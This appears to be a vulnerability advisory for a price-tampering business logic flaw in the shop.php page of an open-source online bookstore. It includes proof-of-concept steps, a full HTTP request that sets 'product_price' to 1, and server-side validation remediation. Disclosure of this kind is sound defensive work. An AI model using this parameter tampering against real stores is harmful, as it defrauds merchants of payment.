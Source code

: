 # keerti1924 / Online-Book-Store-Website - shop.php Business Logic Flaw

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The shop.php script in keerti1924's Online-Book-Store-Website is vulnerable to a business logic flaw. By manipulating the 'product_price' parameter during the purchase process, authenticated users can change the price of items in their shopping cart to an arbitrary value, potentially leading to financial losses for the business.

## Proof of Concept
Step 1: Login as a normal user
Step 2: Add a book to the cart and intercept the request.
Step 3: Modify the value of the 'product_price' parameter to the desired price.
Step 4: Observe that the item's price in the cart has been changed accordingly.

## HTTP Request Example
```http request
POST /shop.php HTTP/2
Host: [REDACTED]
Cookie: PHPSESSID=[REDACTED]
Content-Length: 112
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

product_quantity=1&product_name=The+Bookshop&product_price=1&product_image=book+shop.jpg&add_to_cart=Add+to+cart
```

### Proof with Screenshot
[Screenshot](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20Online-Book-Store-Website/Business%20Logic/Business%20Logic%20shop.php%20proof%20.png?raw=true)

## Remidiation
To mitigate this issue, ensure that all price-related calculations are performed and verified on the server-side. Implement proper access controls and validation mechanisms to prevent unauthorized modifications to prices or other critical parameters during the purchase process.

## CWE
[CWE-840: Business Logic Errors ](https://cwe.mitre.org/data/definitions/840.html)